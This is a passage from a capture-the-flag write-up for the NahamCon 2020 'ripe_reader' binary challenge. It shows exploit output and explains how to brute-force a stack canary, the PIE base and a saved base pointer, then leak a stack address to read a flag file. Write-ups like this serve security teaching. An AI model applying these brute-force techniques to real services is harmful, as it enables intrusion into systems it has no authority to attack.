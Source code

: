 ```bash
0x8e06
procbase | 0xffff 0x8e06
0x3a8e06
0xff3a8e06
0xd0ff3a8e06
0x55d0ff3a8e06
procbase 0x55d0ff3a8000
[+] Opening connection to two.jh2i.com on port 50023: Done

Invalid option!
flag{should_make_an_ascii_flag_image}

real    10m43.063s
user    0m3.230s
sys 0m0.923s
```

Times of other runs: _15m50.392s_, _12m27.560s_, _10m52.456s_


## But... what if `./flag.txt` was not in the binary?

In that case, we'd have to leak a stack address and then put `./flag.txt` on the stack.  See [exploit2.py](exploit2.py) for an implementation.

There were a few challenges with leaking the saved base pointer (rdp):

1. Brute-forcing _what-will-be-popped_ into `rdp` on `leave` may not fail as quickly as brute-forcing the canary or return address.  In the later cases the connection is dropped quickly, for a quicker check.  Post `pop rdp` with a corrupted `rdp` may not crash the program.  A timeout may need to be used to detect failure.
2. The length of the timeout.  Locally 0.1 seconds worked consistently.  Remotely with 0.5 seconds only 1 of 3 tests passed.
3. Many `ripe_reader` runaway processes is a byproduct of this bruce-force, slowing down the challenge server.

There's one last issue that I've not had the time to analyze yet.  The distance from stack leak (rbp) to the start of the input buffer is either 68 or 176 depending on the value of the least sigificant nibble; if `0`, then the distance is 176, otherwise 68.  IIRC, the nibble was either `0` or `4`, I do not recall, in any tests, any other value.  Checking all my results, the probably of a `0` was 75%.

Output:

```
# time ./exploit2.py two.jh2i.com 50023
[*] '/pwd/datajerk/nahamconctf2020/ripe_reader/ripe_reader'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x6600
0xbb6600
0xe5bb6600
0x59e5bb6600
0x3c59e5bb6600
0x283c59e5bb6600
0x8b283c59e5bb6600
canary 0x8b283c59e5bb6600
0x30
0xb530
0xdbb530
0x24dbb530
0xfe24dbb530
0x7ffe24dbb530
```